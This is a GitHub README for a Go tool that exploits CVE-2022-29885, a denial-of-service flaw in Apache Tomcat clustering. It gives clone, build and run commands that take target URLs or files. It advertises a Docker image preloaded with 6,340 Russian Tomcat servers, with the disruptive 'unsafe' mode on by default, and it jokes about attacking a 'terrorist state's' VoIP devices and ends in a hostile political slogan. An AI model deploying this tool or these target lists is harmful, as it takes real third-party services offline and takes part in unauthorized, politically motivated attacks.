

# CVE-2022-29885 by 1vere$k
Apache Tomcat DoS (CVE-2022-29885) Exploit.  
Denial of Service in EncryptInterceptor (Tomcat Cluster).  

The target machine needs to start the `Cluster Nio Receiver`.  
Sending a special TCP packet will cause a Denial of Service to the target.  
Whether `EncryptInterceptor` is used or not, there is the possibility of denial of service vulnerability with condition:  
the Tomcat cluster function is enabled and use `NioReceiver` for communication.

Any version of Tomcat will be affected. The only solution is to use a trusted network.

Safe config file `server.xml` contains  
```
<Interceptor className="org.apache.catalina.tribes.group.interceptors.EncryptInterceptor"
       encryptionAlgorithm="AES/CBC/PKCS5Padding"
       encryptionKey="ANY_KEY(LENGTH:32)"/>
```

Every other config variation is unsafe.

## Usage 

Application

```
1. git clone https://github.com/iveresk/CVE-2022-29885.git
2. cd CVE-2022-29885
3. go build -o /cve-2022-29885
4. ./cve-2022-29885 -t <target_url or file_name> [OPTIONAL] -s false -d false

- t - target URL or filename
- d - debug {true, false} flag which enables or disables logs
- s - safe and unsafe regime switcher. Default value is unsafe.
```

Docker with pre-defined 6340 ruzzian Apache Tomcat servers multiplies for the 10 most common Tomcat ports.  
Default `Unsafe` mode is pre-setuped.

```
docker run -d masterroot/cve-2022-29885
```

Have fun with `ruzzland-terrorist-state` VoIP devices :D

## RUSSIAN WARSHIP GO FRAK YOURSELF!


## Contact
You are free to contact me via [Keybase](https://keybase.io/1veresk) for any details. 